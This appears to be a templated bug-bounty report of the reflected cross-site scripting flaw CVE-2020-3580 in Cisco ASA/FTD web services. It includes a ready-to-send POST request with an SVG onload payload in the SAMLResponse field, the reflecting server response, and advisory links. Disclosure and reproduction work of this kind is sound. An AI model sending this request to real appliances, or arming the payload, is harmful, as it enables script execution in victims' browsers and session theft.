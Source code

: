 

# Cross-site Scripting on cisco appliance (CVE-2020-3580)

## Summary

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting attacks on a targeted system.


## Affected assets 

$URL

## Steps To Reproduce:
 
 Send POST request as shown below

 1. Using Burp, copy and paste the following request:
```
POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: REDACTED
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

SAMLResponse=%22%3E%3Csvg/onload=alert(/kre80r/)%3E
```

{screenshotid}


2. You will see the alert box willl pop up in the response as seen below
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-store
Pragma: no-cache
Connection: Keep-Alive
Date: Fri, 30 Jul 2021 07:31:46 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 764


<html>
<head>
<script>
function submit_saml() {
    document.cookie = "webvpnlogin=1; path=/; secure";
    document.createElement('form').submit.call(document.getElementById('samlform'));
}
</script>
</head>
<body onload="submit_saml()">
<form id="samlform" action="/+webvpn+/index.html" method="POST">
<input type="hidden" name="tgroup" value="">
<input type="hidden" name="next" value="">
<input type="hidden" name="tgcookieset" value="">
<input type="hidden" name="group_list" value="a">
<input type="hidden" name="username" value="">
<input type="hidden" name="password" value="">
<input type="hidden" name="SAMLResponse" value=""><svg/onload=alert(/kre80r/)>
">
<input type="submit" name="Login" value="Login" style="display:none;">
</form>
</body>
</html>
```

{screenshotid}

## Impact
A successful attack would allow unauthenticated attacker to send  malicious links to Cisco device  users in order to execute javascript commands in the context of the victim’s browser.

### Supporting Material/References:
https://nvd.nist.gov/vuln/detail/CVE-2020-3580
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe

